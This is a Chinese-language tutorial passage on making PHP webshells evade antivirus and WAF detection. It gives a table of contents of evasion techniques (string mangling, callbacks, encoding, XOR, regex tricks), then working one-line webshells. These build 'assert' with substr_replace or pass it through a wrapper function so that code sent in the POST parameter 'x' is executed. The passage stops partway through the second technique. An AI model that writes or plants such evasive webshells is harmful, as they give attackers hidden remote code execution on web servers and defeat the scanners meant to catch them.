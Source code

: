 

- [1. 关于eval与assert](#1-关于eval与assert)
- [2. 免杀方法](#2-免杀方法)
    - [2.1. 字符串变形](#21-字符串变形)
        - [2.1.1. PHP中关于操作字符串的函数](#211-php中关于操作字符串的函数)
        - [2.1.2. 变形](#212-变形)
    - [2.2. 定义函数](#22-定义函数)
    - [2.3. 回调函数](#23-回调函数)
        - [2.3.1. 回调函数列表](#231-回调函数列表)
        - [2.3.2. 冷门回调函数](#232-冷门回调函数)
        - [2.3.3. 回调函数变形](#233-回调函数变形)
    - [2.4. 特殊字符干扰](#24-特殊字符干扰)
    - [2.5. 数组](#25-数组)
    - [2.6. 类](#26-类)
    - [2.7. 编码](#27-编码)
    - [2.8. 去字符特征](#28-去字符特征)
        - [2.8.1. 利用异或、编码等方式](#281-利用异或编码等方式)
        - [2.8.2. 利用正则匹配字符](#282-利用正则匹配字符)
        - [2.8.3. 利用 POST 包获取关键参数执行](#283-利用-post-包获取关键参数执行)
- [3. 总结](#3-总结)


# 1. 关于eval与assert
eval是一个语言构造器而不是一个函数，不能被可变函数调用，例如`<?php $a=eval;$a()?>`就无法正常运行，所以用eval的话不如assert灵活。assert回调函数则允许你简易地捕获传入断言的代码，并包含断言的位置信息。
# 2. 免杀方法
## 2.1. 字符串变形
### 2.1.1. PHP中关于操作字符串的函数
```php
ucwords() //函数把字符串中每个单词的首字符转换为大写。
ucfirst() //函数把字符串中的首字符转换为大写。
trim() //函数从字符串的两端删除空白字符和其他预定义字符。
substr_replace() //函数把字符串的一部分替换为另一个字符串
substr() //函数返回字符串的一部分。
strtr() //函数转换字符串中特定的字符。
strtoupper() //函数把字符串转换为大写。
strtolower() //函数把字符串转换为小写。
strtok() //函数把字符串分割为更小的字符串
str_rot13() //函数对字符串执行 ROT13 编码。
//PHP的灵活性操作字符串的函数还有很多
```
### 2.1.2. 变形
用 substr_replace() 函数变形assert达到免杀的效果
```php
<?php
$a = substr_replace("assexx","rt",4);
$a($_POST['x']);
?>
```
## 2.2. 定义函数
定义一个函数把关键词分割达到bypass效果
```php
<?php 
function kdog($a){
    $a($_POST['x']);
}
kdog(assert);
?>
//另一端
```